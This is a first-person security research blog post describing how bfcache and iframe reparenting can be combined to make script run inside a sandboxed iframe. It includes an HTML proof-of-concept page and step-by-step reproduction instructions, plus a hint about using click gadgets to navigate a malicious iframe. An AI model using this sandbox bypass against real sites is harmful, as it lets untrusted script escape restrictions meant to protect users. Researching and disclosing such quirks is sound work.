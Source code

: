 # Research Blog: A bfcache and iframe reparenting quirk to bypass sandboxed iframe with same-origin navigation.

Whomever reading this blog i want you to be familiar with the concept of **[bfcache](https://web.dev/articles/bfcache)**, **[sandboxed iframe](https://developer.mozilla.org/en-US/docs/Web/HTML/Reference/Elements/iframe#sandbox)** and **[iframe reparenting](https://blog.huli.tw/2024/09/07/en/idek-ctf-2024-iframe/#2-iframe-reparenting-and-bfcache)**

Once you are familiar with the above concepts let's start by giving a minor detailing on the document definition of **Bfcache**

this [document](https://web.dev/articles/bfcache#basics) says that, 
> With back/forward cache (bfcache), instead of destroying a page when the user ***navigates away***, we postpone destruction and pause JS execution. If the user navigates back soon, we make the page visible again and unpause JS execution. This results in a near instant page navigation for the user.

The term `navigates away` sound vague to me. So let me clear that.

Whenever an user navigates to a url that is different from the previous one.. the previous page is cached with bfcache. Same-origin or diffrent Origin.. doesnt matter. That also means that refresh a page again and again, it is not cached in bfcache. It does makes sense like... why would it be cached.!

Below is the script i used to test this quirk.
CHECK IT OUT...!

```htmlembedded=
<!DOCTYPE html>
<html>
<body>
  <h2>BFCache Test</h2>
  
  <div>
    <strong>History length:</strong> <span id="history-length"></span>
    <button onclick="history.back()">⬅️ Go Back</button>
  </div>

  <br>

  <iframe id="f" src="data:text/html,test1:<script>document.writeln('Frame 1 random: ' + Math.random())</script>"></iframe>
  <br><br>

  <button onclick="loadTest2()">Load test2</button>
  <button onclick="location.href='https://dssphkqz.requestrepo.com'">Top-level same origin navigation</button>
  <button onclick="location.href='https://example.com'">Top-level cross origin navigation</button>

  <script>
    console.log("Top-level script run");

    // Update history length display continuously
    const histSpan = document.getElementById('history-length');
    function updateHistoryLength() {
      histSpan.textContent = history.length;
      requestAnimationFrame(updateHistoryLength);
    }
    updateHistoryLength();

    // Observe when this top-level page is restored from BFCache
    window.addEventListener('pageshow', (event) => {
      console.log('✅ pageshow fired. Restored from BFCache:', event.persisted);
      document.body.style.background = event.persisted ? '#90EE90' : '#fff'; // light green if from cache
    });

    window.addEventListener('pagehide', (event) => {
      console.log('🚪 pagehide fired. persisted =', event.persisted);
    });

    // Chromium-specific Page Lifecycle API
    document.addEventListener('freeze', () => console.log('🧊 freeze fired'));
    document.addEventListener('resume', () => console.log('⏩ resume fired'));

    function loadTest2() {
      console.log('Loading test2...');
      const f = document.getElementById('f');
      f.setAttribute('sandbox', '');
      f.src = 'data:text/html,test2:<script>document.writeln(\'Frame 2 random: \' + Math.random())<\/script>';
    }
  </script>

  <hr>
  <div style="font-family: monospace;">
    <h3>🧪 Test 1 — Cross-origin Navigation BFCache</h3>
    <ol>
      <li>Press the <strong>Top-level cross origin navigation</strong> button.</li>
      <li>Then press the <strong>⬅️ Go Back</strong> button (or your browser’s back button).</li>
      <li>Observe whether the background turns green (indicating BFCache restore).</li>
    </ol>

    <h3>🧪 Test 2 — Same-origin Navigation BFCache</h3>
    <ol>
      <li>Press the <strong>Top-level same origin navigation</strong> button.</li>
      <li>Then press the <strong>⬅️ Go Back</strong> button (or your browser’s back button).</li>
      <li>Ah you will find urself..in the new page tab</li>
    </ol>
  </div>
</body>
</html>
```

you might be weirded out by testing the second case..but we want to increase the history length from 2 to 3 with the iframe navigation in order to again navigate to the same url and back.

This test proves that bfcache is only for ***different url navigation***. In the place of cross origin navigation button.. you can also put `https://dssphkqz.requestrepo.com/a`.. and observe that indeed the bfcache is working there.

Now i will give you a magic recipe.. 

1. Load the script 
1. Press the loadTest2 button twice(more than once)
1. Do a same origin navigation
1. Press Go back

What do you observe.. test2 script inside sandboxed iframe is being executed.. WTF

According to [Huli's Blog](https://blog.huli.tw/2024/09/07/en/idek-ctf-2024-iframe/#2-iframe-reparenting-and-bfcache) we have to disable bfcache inorder to get this functionality.. Disabling bfcache may not be possible in a restrictive environment. If things such as Window.open, iframing the target or navigation to other url etc... are not available for you, you might be able to use any click gadget or anyway u seem fit to navigate the malicious script iframe. 

I still have no idea why the iframe navigation has to be done twice. iframe reparenting spec is not detailed anywhere. So to summarize.. 

We are neglecting the use of bfcache using the same url and iframe navigation to effectively bypass the sandbox. 

Interesting Quirk.. My first research blog.. hope u liked this.. TaDaaa x0x